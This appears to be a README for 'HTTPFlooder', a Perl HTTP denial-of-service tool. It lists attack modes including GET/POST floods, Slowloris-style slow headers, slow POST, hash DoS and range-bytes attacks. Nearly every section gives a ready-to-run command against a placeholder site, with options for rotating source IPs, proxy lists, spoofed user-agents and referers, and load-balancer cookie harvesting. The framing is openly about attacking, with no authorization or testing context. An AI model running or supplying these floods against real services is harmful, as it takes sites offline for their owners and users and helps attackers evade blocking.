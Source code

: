 # Usage #

```
bunyamin$ perl httpflooder.pl --help
HTTP Flooder, v1.0
   Usage: httpflooder.pl [options]
	  [--attack]      -a  : Attack Type GF  => GET Flood,
                                            PF  => POST Flood,
                                            SH  => Slow Headers,
                                            SP  => Slow POST,
                                            HD  => Hash DoS,
                                            MX  => GET/POST Flood,
                                            RB  => Range Bytes,
                                            HF  => HTTP Header Fuzz,
                                            SHF => Slow Header Fuzz
                                            BF  => MX Flood over Balancer
	  [--host]        -h  : Host for attack
	  [--cookie]      -c  : Cookie for HTTP Request Header
	  [--url]         -u  : Request URL
	  [--urls]            : Request URL files
	  [--port]        -p  : Port for HTTP request
	  [--https]           : SSL support
	  [--ip]          -i  : Source IP
	  [--ips]             : Source IPs files
	  [--useragent]   -ua : User-Agent for HTTP Request Header
	  [--useragents]      : User-Agent files for HTTP Request Header
	  [--referer]         : Referer header for HTTP Request
	  [--referers]        : Referer header files for HTTP Requests
	  [--proxy_file]      : Proxy IP list fpr HTTP request over proxy
	  [--keepalive]       : Connection : Keep-Alive Header
	  [--closehead]       : Close header (added CRLF)
	  [--ulength]         : Length for random generated url
	  [--extension]       : File extension for random generated url
	  [--clength]         : Content-Length for slowpost
	  [--thread]      -t  : Thread number for tool.
          [--balancer]        : User balancer
          [--custom-cookie]   : Extract custom Cookie value in response
          [--basic-auth]      : Basic Authentication for HTTP Request
	  [--num]         -n  : Connection number for tool.
	  [--interval]        : Add headers/data/param per request for Slow Headers/POST/Params attack.
	  [--delay]           : Delay per additional header in a request for Slow Headers attack.
	  [--duration]        : Duration for test (second)
          [--verbose]     -v  : verbose output
                                1 => Thread, Host, IP, Response Code
                                2 => Request
                                3 => Request, Response
          [--help]            : Display usage and options
```


HTTPFlooder does not support IP Spoofing. If you want to attack with many different IP addresses, virtual IP addresses need to be defined within the operating system. For this purpose, each virtual IP is added as a single line within a file. The following example shows the usage of HTTPFlooder using various IP addresses.

bunyamin$ perl httpflooder.pl -a GF -h www.site.com **--ips ips.txt** --urls urls.txt  -t 1 -n 1

In this GET Flood attack, the IP addresses are randomly chosen and used from the ips.txt file.

## Attack Types ##

### GET Flood ###

bunyamin$ perl httpflooder.pl -a **GF** -h www.site.com --ips ips.txt --urls urls.txt --useragents useragents.txt --referers referers.txt -t 50 -n 1000

-t parameter means; 50 thread work for this attack.

-n parameter means; 1000 HTTP GET request with 50 threads.

If ips.txt file contains 10 IP addresses, 5 threads and 100 HTTP requests are created for each IP address.

### POST Flood ###

bunyamin$ perl httpflooder.pl -a **PF** -h www.site.com --ips ips.txt --urls urls.txt --useragents useragents.txt --referers referers.txt -t 50 -n 1000

### Slow Headers (Slowloris) ###

bunyamin$ perl httpflooder.pl -a **SH** -h www.site.com --ips ips.txt --urls urls.txt --useragents useragents.txt --referers referers.txt -t 50 -n 1000 --interval 10 --delay 2 --keepalive

--interval will add 10 extra headers per request

--delay delay value for each header adding operation

### Slow POST ###

bunyamin$ perl httpflooder.pl -a **SP** -h www.site.com --ips ips.txt --urls urls.txt --useragents useragents.txt --referers referers.txt -t 50 -n 1000 --clength 20 --delay 2 --keepalive -v 3

--clength means “Content-Length”. So it will add 20 characters in POST body.

--delay delay value for each POST body character adding operation.

### Hash DoS ###

bunyamin$ perl httpflooder.pl -a **HD** -h www.site.com --ips ips.txt --urls urls.txt --useragents useragents.txt --referers referers.txt -t 50 -n 1000 --interval 1000

--interval will add post param and value until interval (a1=b1&...&a1000=b1000)

### MX Flood (GET/POST Flood) ###

You can use GET and POST flood at the same time with this type. Just need to prepare “urls.txt” file like below.

/get.jsp
/post.jsp#param1=value1&param2=value

bunyamin$ perl httpflooder.pl -a **MX** -h www.site.com --ips ips.txt --urls urls.txt --useragents useragents.txt --referers referers.txt -t 50 -n 1000

### Range Bytes ###

bunyamin$ perl httpflooder.pl -a **RB** -h www.site.com --ips ips.txt --urls urls.txt --useragents useragents.txt --referers referers.txt -t 50 -n 1000

### MX Flood over Balancer ###

urls.txt file contains the scenario of the attack as in the MX flood attack type. So the scenarios in the urls.txt will be executed as much as the count which stated with -n/-num parameter.

sample url.txt file;

/index.jsp
/login.jsp#username=value1&password=value
/product.jsp?cmd=add#productID=1

bunyamin$ perl httpflooder.pl -a **BF** -h www.site.com --ips ips.txt --urls urls.txt --useragents useragents.txt --referers referers.txt -t 50 -n 1000 --balancer

--balancer option will collect all the “Set-Cookie” value for the using in next request.

## Features ##

### SSL Support ###

bunyamin$ perl httpflooder.pl -a GF -h www.site.com --ips ips.txt --urls urls.txt --useragents useragents.txt --referers referers.txt -t 50 -n 1000 **--https**

### Cookie Based Request ###

bunyamin$ perl httpflooder.pl -a GF -h www.site.com --ips ips.txt --urls urls.txt --useragents useragents.txt --referers referers.txt -t 50 -n 1000 **--cookie=”JSESSIONID=123442FDJd34234343dfddDDF”**

### Custom Cookie ###

You can use this option with MX Flood over balancer (Attack type is BF). It should collect the custom cookie in HTTP Response, not in Set-Cookie. Because “--balancer” option will collect cookie in “Set-Cookie” option.

For example;

```
<script>
document.cookie=’BNYID=RTFRT482378jdmbfd34543543’;
</script>
```

bunyamin$ perl httpflooder.pl -a GF -h www.site.com --ips ips.txt --urls urls.txt --useragents useragents.txt --referers referers.txt -t 50 -n 1000 **--custom-cookie BNYID**

### Basic Authentication ###

bunyamin$ perl httpflooder.pl -a GF -h www.site.com --ips ips.txt --urls urls.txt --useragents useragents.txt --referers referers.txt -t 50 -n 1000 **--basic-auth=“bunyamin:123456”**

### Proxy Support ###

Need to prepare proxies.txt file for Proxy IP and Port like beloww

122.31.34.13:8080
123.56.111.7:8181

bunyamin$ perl httpflooder.pl -a GF -h www.site.com --ips ips.txt --urls urls.txt --useragents useragents.txt --referers referers.txt -t 50 -n 1000 **--proxy\_file proxies.txt**

### Random Generated URL ###

bunyamin$ perl httpflooder.pl -a GF -h www.site.com --ips ips.txt --useragents useragents.txt --referers referers.txt -t 50 -n 1000 **--ulength 20**

It will generate URL with 20 character randomly for each request.